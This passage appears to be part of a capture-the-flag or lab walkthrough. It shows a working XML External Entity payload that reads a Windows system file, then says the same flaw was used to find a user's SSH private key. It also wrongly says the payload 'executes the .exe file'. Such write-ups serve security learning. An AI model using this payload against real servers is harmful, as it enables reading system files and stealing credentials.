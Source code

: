 This XML code might be vulnerable to XML External Entity, we can test it by editing the code.

```xml
<?xml version = "1.0"?>
	<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
	<order>
		<quantity>
			10
		</quantity>
		<item>
			&test;
		</item>
		<address>
			haxxx
		</address>
	</order>
```

It executes the .exe file, which means the site is vulnerable.

![](./attachments/Pasted%20image%2020220418235646.png)

Since the server is also running SSH, we might be able to find something interesting in its path. 

We found Daniel's SSH private key.
